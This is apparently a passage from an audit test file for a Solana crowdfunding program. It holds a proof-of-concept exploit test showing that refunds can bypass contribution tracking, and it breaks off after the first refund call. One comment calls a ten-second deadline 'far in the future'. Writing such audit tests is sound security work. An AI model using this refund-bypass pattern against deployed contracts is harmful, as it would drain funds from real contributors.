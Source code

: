 ```javascript
//audit CRITICAL - Contribution Tracking Exploit
it("Exploitation scenario: Contribution tracking bypass allows multiple refunds", async () => {
  // Create a new fund for this exploit
  const exploitFundName = "Exploit Fund";
  const [exploitFundPDA] = await PublicKey.findProgramAddress(
    [Buffer.from(exploitFundName), creator.publicKey.toBuffer()],
    program.programId
  );

  await program.methods
    .fundCreate(exploitFundName, description, goal)
    .accounts({
      fund: exploitFundPDA,
      creator: creator.publicKey,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  // Set deadline far in the future
  const exploitDeadline = new anchor.BN(Math.floor(Date.now() / 1000) + 10);
  await program.methods
    .setDeadline(exploitDeadline)
    .accounts({
      fund: exploitFundPDA,
      creator: creator.publicKey,
    })
    .rpc();

  // Contribute
  const smallContribution = new anchor.BN(100000000); // 0.1 SOL
  const [exploitContributionPDA] = await PublicKey.findProgramAddress(
    [exploitFundPDA.toBuffer(), provider.wallet.publicKey.toBuffer()],
    program.programId
  );

  const balanceBeforeContribution = await provider.connection.getBalance(
    provider.wallet.publicKey
  );

  await program.methods
    .contribute(smallContribution)
    .accounts({
      fund: exploitFundPDA,
      contributor: provider.wallet.publicKey,
      contribution: exploitContributionPDA,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  // Wait for the deadline to pass
  await new Promise((resolve) => setTimeout(resolve, 15000));

  // First refund
  await program.methods
    .refund()
    .accounts({
      fund: exploitFundPDA,
      contribution: exploitContributionPDA,
      contributor: creator.publicKey,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

```